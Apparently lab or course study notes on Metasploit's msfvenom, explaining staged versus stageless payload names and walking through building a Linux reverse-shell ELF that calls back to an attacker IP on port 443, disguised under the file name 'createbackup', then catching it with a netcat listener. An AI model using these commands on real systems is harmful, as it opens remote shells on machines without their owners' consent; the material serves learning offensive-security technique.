 
**List msfvenom payloads**
```
msfvenom -l payloads
```

#### Staged vs Stageless Payloads: How to tell the difference

**Staged Payloads**

- Allow us to send over more components of our attacks
- Sends a "stage" to be executed on the target then calls back to the attack machine to send the remainder of the payload and execute the reverse shell
- Takes up space in memory, leaving less room for the payload


**Stageless Payloads**

- Do not have stages
- better for evasion purposes
- payloads are sent in their entirety across a network

**How to tell the difference**

The following is an example of a staged payload:*linux/x86/shell/reverse_tcp* 
- *shell* is a stage to send, as well as *reverse_tcp*. 

The following is a staged payload: windows/meterpreter/reverse_tcp

The following is an example of a stageless payload: linux/zarch/meterpreter_reverse_tcp 
- this specifies the architecture it affects, it also has the shell payload and network communications within the same function */meterpreter_reverse_tcp*

The following is a stageless payload: windows/meterpreter_reverse_tcp....notice how the shell payload and the network communication are in the same portion of the name

#### Building a Stageless Payload

```bash
msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.113 LPORT=443 -f elf > createbackup.elf
```
	- msfvenom, defines the tool used to make the payload
	- p, indicates that msfvenom is creating a payload
	- linux/x64/shell_reverse_tcp specifies a linux 64-bit stageless paylaod that will initiate a TCP based reverse shell
	- LHOST=10.10.14.113 LPORT=443, when executed the payload will call back to the specified IP address and port
	- f elf the `-f` flag specifies the format the generated binary will be in
	- createbackup.elf, creates the .elf binary and names the file `createbackup`


#### Make the Connection

Now on your attack box use netcat to listen for the connection
```bash
sudo nc -nlvp 443
```



